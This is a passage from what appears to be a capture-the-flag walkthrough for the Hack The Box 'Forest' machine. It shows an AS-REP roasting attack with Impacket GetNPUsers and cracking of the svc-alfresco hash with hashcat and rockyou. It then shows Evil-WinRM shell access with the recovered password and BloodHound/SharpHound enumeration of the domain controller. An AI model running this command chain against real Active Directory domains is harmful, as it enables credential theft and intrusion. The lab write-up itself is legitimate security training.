 3. Enumerate hashes for interesting users with Impacket tool GetNPUsers
    root@p3:/opt/impacket/examples# ./GetNPUsers.py htb.local/ -usersfile /opt/htb/machines/forest/users-forest.txt -format hashcat -dc-ip 10.10.10.161 -outputfile hash.txt
    root@p3:/opt/impacket/examples# cat hash.txt
      $krb5asrep$23$svc-alfresco@HTB.LOCAL:c6b386e4e646a26313188b25a9718d8f$df73ae7a0799b0763c99ebd9bae61f41354facff05b4cceb76ee4563009bf84db6640e6ebefea558fe9364c6fccb6eacb9f79acaf539ba7dffe13307d89b784c7ad16c838962d6256e27326834cfcc8389b782808bddec98a2685b535fd1d9257f22561507caaec13c6a319e5fe0d9980cf74355262fe3aa2f56a254ac0cf0031b5f61111c3c35adcd7cc4b8039bfc69210a60ed8fc4adb2d269911c33eab9f973e374f2b52ba68c452fbf961185d85ab8f9de7216cc4841474e1bbff324258c2df7bc91bb28bc51d164c5a3e6edc8b8c4da32258842f760c4548ea023b91f158eb483a35f09

4. Crack the hash with hashcat
    root@p3:/opt/htb/machines/forest# hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt -o cracked-hash.txt --force
    root@p3:/opt/htb/machines/forest# cat cracked-hash.txt
      $krb5asrep$23$svc-alfresco@HTB.LOCAL:c6b386e4e646a26313188b25a9718d8f$df73ae7a0799b0763c99ebd9bae61f41354facff05b4cceb76ee4563009bf84db6640e6ebefea558fe9364c6fccb6eacb9f79acaf539ba7dffe13307d89b784c7ad16c838962d6256e27326834cfcc8389b782808bddec98a2685b535fd1d9257f22561507caaec13c6a319e5fe0d9980cf74355262fe3aa2f56a254ac0cf0031b5f61111c3c35adcd7cc4b8039bfc69210a60ed8fc4adb2d269911c33eab9f973e374f2b52ba68c452fbf961185d85ab8f9de7216cc4841474e1bbff324258c2df7bc91bb28bc51d164c5a3e6edc8b8c4da32258842f760c4548ea023b91f158eb483a35f09:s3rvice

    # NOTE: User:Pass = svc-alfresco:s3rvice

5. Login using Evil-WinRM and found creds to grab user.txt
    root@p3:/opt/evil-winrm# ruby evil-winrm.rb -i 10.10.10.161 -u svc-alfresco -p s3rvice

    Info: Starting Evil-WinRM shell v1.7
    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cat ../Desktop/user.txt
    e5e4****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Enumerate the DC environment using BloodHound.
    *Evil-WinRM* PS C:\> upload ../BloodHound/Ingestors/SharpHound.ps1
    *Evil-WinRM* PS C:\> Import-module C:\Users\svc-alfresco\Documents\SharpHound.ps1
    *Evil-WinRM* PS C:\> Get-Help Invoke-BloodHound
    *Evil-WinRM* PS C:\> Invoke-BloodHound -CollectionMethod All -Domain htb.local -LDAPUser svc-alfresco -LDAPPass s3rvice
    *Evil-WinRM* PS C:\> download 20191024033946_BloodHound.zip

2. Start neo4j console and bloodhoud, and import the zip by drag-and-drop it into the window.
    root@p3:/opt# neo4j console
    root@p3:/opt# bloodhound
